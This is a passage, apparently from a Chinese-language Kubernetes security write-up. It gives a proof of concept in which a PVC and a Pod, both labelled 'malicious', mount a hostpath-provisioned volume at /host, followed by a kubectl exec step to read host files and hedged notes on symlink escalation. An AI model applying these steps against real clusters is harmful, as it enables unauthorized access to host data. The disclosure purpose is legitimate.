 **Proof of Concept（概念验证）：**

1. **攻击前提**：集群启用了 `--enable-hostpath-provisioner=true`，且攻击者有权限创建 PVC 和 Pod。

2. **攻击步骤**：

   - **Step 1**：攻击者创建一个 PVC，请求动态供应一个 PV。

     ```yaml
     apiVersion: v1
     kind: PersistentVolumeClaim
     metadata:
       name: malicious-pvc
     spec:
       accessModes:
         - ReadWriteOnce
       resources:
         requests:
           storage: 10Gi
     ```

   - **Step 2**：攻击者创建一个 Pod，使用上述 PVC，并尝试访问主机文件系统。

     ```yaml
     apiVersion: v1
     kind: Pod
     metadata:
       name: malicious-pod
     spec:
       containers:
         - name: attacker
           image: alpine
           command: ["/bin/sh"]
           args: ["-c", "sleep 3600"]
           volumeMounts:
             - mountPath: /host
               name: host-volume
       volumes:
         - name: host-volume
           persistentVolumeClaim:
             claimName: malicious-pvc
     ```

   - **Step 3**：进入 Pod，访问挂载的 `/host` 目录。

     ```bash
     kubectl exec -it malicious-pod -- /bin/sh
     ```

     在 Pod 内部，攻击者可以查看 `/host` 目录下的内容，如果供应器配置不当，可能会包含主机上的敏感数据。

3. **利用方式扩展**：

   - 如果攻击者能够影响动态供应器的路径（例如利用符号链接等手段），可能访问主机上的任意目录。
   - 攻击者可能在主机文件系统上写入恶意文件，影响主机的运行。


[1]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/kuberuntime/kuberuntime_manager.go#L1325
[2]: https://github.com/kubernetes/kubernetes/blob/5cf4fbe524ca1479607a4880949a032064556f76/pkg/kubelet/pod_workers.go#L1484